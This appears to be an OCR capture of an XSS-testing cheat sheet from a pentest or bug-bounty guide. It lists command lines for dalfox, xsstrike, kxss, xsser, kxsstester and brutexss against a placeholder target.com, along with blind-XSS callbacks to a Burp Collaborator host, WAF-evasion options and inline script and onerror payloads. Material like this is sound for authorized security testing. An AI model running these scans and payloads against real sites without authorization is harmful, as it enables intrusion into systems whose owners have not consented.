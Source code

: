 ### 3.2 XSS Testing
    :- Automated XSS with blind payload
    dalfox url 'https://target.com/search?q=FUZZ' -b your.burpcollaborator.net -o dalfox_basic.txt 
    
    :- Scan URLs from file, skip basic auth vuln
    dalfox file list_of_urls_with_params.txt --skip-bav -o dalfox_from_file.txt 
    
    :- Test POST request
    dalfox url 'https://target.com/page' --data 'param1=test&param2=FUZZ' -X POST -o dalfox_post.txt 
    
    :- Use custom payloads
    dalfox url 'https://target.com/reflect' --custom-payload xss_payloads.txt -o dalfox_custom.txt 
    
    :- DOM XSS mining
    dalfox url 'https://target.com' --mining-dom --deep-domxss -o dalfox_dom.txt 
    
    :- Attempt WAF evasion techniques
    dalfox url 'https://target.com' --waf-evasion -o dalfox_waf.txt

    
    :- Crawl and test, provide seeds
    xsstrike -u "https://target.com/search?q=test" --crawl -t 10 -l 3 --seeds seeds.txt -o xsstrike_crawl.html 
    
    :- Custom payloads and headers
    xsstrike -u "https://target.com/input?val=1" -f /path/to/payloads.txt --headers "Cookie: SESSID=123" 
    
    :- Test JSON input in POST body, path discovery
    xsstrike -u "https://target.com/api" --json --path -d '{"key":"FUZZ"}' -o xsstrike_json.html 

    
    :- Simple Reflected XSS scanner
    kxss 'https://target.com/index.php?p=FUZZ'
    
    :- Pipe URL and set custom parameters like cookies
    echo 'https://target.com/q=FUZZ' | kxss -p 'Cookie: test=kXSS'
    ----
        dalfox url 'https://target.com/search?q=test'
    dalfox url 'https://target.com/search?q=test' -b https://xss.burpcollab.net
    xsstrike -u "https://target.com/search?q=1"
    xsstrike -u "https://target.com/search?q=1" --crawl -t 10
    xsser -u "https://target.com" -g "/search.php?q=XSS" -c 3
    kxsstester -u https://target.com/search?q=1
    kxsstester -u https://target.com/search?q=1 --dom --post-data 'param=val'
    brutexss -u https://target.com -p "param1 param2" -w xss_payloads.txt
    ------
    dalfox url 'https://target.com/search?q=test' -b https://xss.burpcollab.net -w /usr/share/seclists/Fuzzing/XSS/XSS-Payloads-L5.txt -p 10
    dalfox url 'https://target.com/submit' -p 'param1=value1&param2=<script>alert(1)</script>' -X POST -b https://xss.burpcollab.net
    xsstrike -u "https://target.com/search?q=1" --crawl -t 20 --fuzzer all --level 3 -o xsstrike_crawl.txt
    xsstrike -u "https://target.com/profile?id=1" --params "id" -p XSS/XSS-Payloads.txt
    xsser -u "https://target.com" -g "/search.php?q=XSS" -c 5 --payloads XSS/XSS-Payloads.txt
    xsser -u "https://target.com/form.html" --post="name=test&email=<script>alert(1)</script>"
    kxsstester -u https://target.com/search?q=1 --dom --post-data 'param=val' --payloads XSS/DOMXSS.txt
    kxsstester -u https://target.com/vuln#test=<script>alert(1)</script> --hash
    brutexss -u https://target.com -p "name query search" -w XSS/XSS-Payloads.txt -t 30
    brutexss -u https://target.com -data "param1=value1&param2=FUZZ" -w XSS/XSS-Payloads.txt -m POST
    ------
    dalfox url 'https://target.com/search?q=test' -b https://xss.burpcollab.net -w XSS/XSS-Payloads-Full.txt -p 15 -smart
    dalfox url 'https://target.com/submit' -p 'param1=value1&param2=<img src=x onerror=alert(1)>' -X POST -b https://xss.burpcollab.net -blind-timeout 30
    xsstrike -u "https://target.com/search?q=1" --crawl -t 25 --fuzzer all --level 5 -o xsstrike_crawl_full.txt --vectors all
    xsstrike -u "https://target.com/profile?id=1" --params "id" -p XSS/XSS-Polyglots.txt --encode
    xsser -u "https://target.com" -g "/search.php?q=XSS" -c 7 --payloads XSS/XSS-Payloads-Advanced.txt --delay 2
    xsser -u "https://target.com/form.html" --post="name=test&email=<svg><script>alert(1)</script></svg>" --headers "Content-Type: application/xml"
    kxsstester -u https://target.com/search?q=1 --dom --post-data 'param=val' --payloads XSS/DOMXSS.txt --proxy http://127.0.0.1:8080
    kxsstester -u https://target.com/vuln#test=<img src=x onerror=prompt(1)> --hash --user-agent "Mozilla/5.0"
    brutexss -u https://target.com -p "name query search input" -w XSS/XSS-Payloads-L5.txt -t 35 -headers "X-Forwarded-For: 127.0.0.1"
    brutexss -u https://target.com -data "param1=value1&param2=FUZZ" -w XSS/XSS-Event-Attributes.txt -m POST -cookies "sessionid=..."

